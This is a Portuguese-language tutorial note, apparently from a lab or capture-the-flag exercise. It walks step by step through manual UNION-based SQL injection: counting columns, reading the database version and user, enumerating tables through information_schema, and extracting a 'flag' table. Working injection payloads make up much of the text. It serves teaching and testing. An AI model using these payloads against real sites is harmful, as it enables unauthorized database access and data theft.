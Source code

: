 [[11 - VULN - SQL Injection Manual]]


## Fase 1: Descobrir a quantidade de colunas

A primeira etapa de um ataque de SQL Injection é identificar **quantas colunas** estão sendo selecionadas pelo back-end. Isso é necessário para usar a técnica `UNION SELECT`.

### Exemplo:

```sql
SELECT name, description FROM products ORDER BY 1;
SELECT name, description FROM products ORDER BY 2;
```

O atacante vai testando:

```sql
' ORDER BY 1; --
' ORDER BY 2; --
' ORDER BY 3; -- (se der erro, só existem 2 colunas)
```

---

## Fase 2: Usando UNION SELECT

Depois de saber o número de colunas, o atacante pode usar `UNION SELECT` para **inserir dados falsos** ou **extrair informações sensíveis** do banco.

```sql
SELECT name, description 
FROM products 
WHERE name LIKE '%teste%' 
UNION SELECT 1, 2;
```

Isso vai "juntar" um novo resultado à consulta original, com valores `1` e `2` nas colunas correspondentes.

### Exemplo de ataque direto:

```sql
' UNION SELECT 1,2,3,4;# 
```

Com isso, ele força o banco a retornar um **novo "produto falso"** com os valores `1`, `2`, `3`, `4`.

### Agora vamos explorar a vulnerabilidade...

Sabendo que a **coluna 2** exibe o nome do produto (ou outro campo visível), o atacante pode extrair informações do sistema:

```sql
' UNION SELECT 1, @@version, 3, 4;#     -- versão do banco
' UNION SELECT 1, database(), 3, 4;#    -- nome do banco atual
' UNION SELECT 1, user(), 3, 4;#        -- usuário do banco
```

Essas informações são **sensíveis** e ajudam o atacante a mapear o ambiente.

---

## Fase 3: Explorando a estrutura do banco

### Descobrindo tabelas dentro do banco:

```sql
' UNION SELECT 1, table_name, 3, 4 
FROM information_schema.tables 
WHERE table_schema = 'cs';#
```

Suponha que ele descobre duas tabelas:

- `products`
    
- `flag`
    

### Descobrindo colunas da tabela `products`:

```sql
' UNION SELECT 1, column_name, 3, 4 
FROM information_schema.columns 
WHERE table_name = 'products';#
```

Retorno:

```
products → ID, NAME, DESCRIPTION, PRICE
```

### Descobrindo colunas da tabela `flag`:

```sql
' UNION SELECT 1, column_name, 3, 4 
FROM information_schema.columns 
WHERE table_name = 'flag';#
```

Retorno:

```
flag → ID, NAME
```

---

## Fase 4: Extraindo dados sigilosos

Agora que sabemos os nomes das tabelas e colunas, podemos montar um `UNION SELECT` para **extrair os dados diretamente**:

```sql
' OR 1=1 UNION SELECT 1, id, name, 4 FROM flag;#
```

> Isso traria os dados da tabela `flag` diretamente para o campo que exibe os produtos no site.


